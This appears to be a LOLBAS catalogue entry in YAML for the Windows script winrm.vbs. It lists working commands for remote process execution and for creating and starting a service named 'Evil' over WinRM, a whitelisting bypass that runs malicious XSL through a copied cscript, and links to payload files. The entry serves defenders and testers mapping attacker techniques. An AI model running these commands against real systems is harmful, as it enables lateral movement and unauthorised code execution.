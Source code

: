 ```yaml
---
Name: winrm.vbs
Description: Script used for manage Windows RM settings
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
  - Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
  - Command: '%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty'
    Description: Bypass AWL solutions by copying and executing cscript.exe and malicious XSL documents from attacker controlled location
    Usecase: Execute aribtrary, unsigned code via XSL script
    Category: AWL Bypass
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\winrm.vbs
  - Path: C:\Windows\SysWOW64\winrm.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
Detection:
  - IOC:
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
  - Link: https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - Link: https://twitter.com/bohops/status/994405551751815170
  - Link: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  - Link: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
Acknowledgement:
  - Person: Matt Graeber
    Handle: "@mattifestation"
  - Person: Matt Nelson
    Handle: "@enigma0x3"
  - Person: Casey Smith
    Handle: "@subtee"
  - Person: Jimmy
    Handle: "@bohops"
  - Person: Red Canary Company cc Tony Lambert
    Handle: "@redcanaryco"
---
```


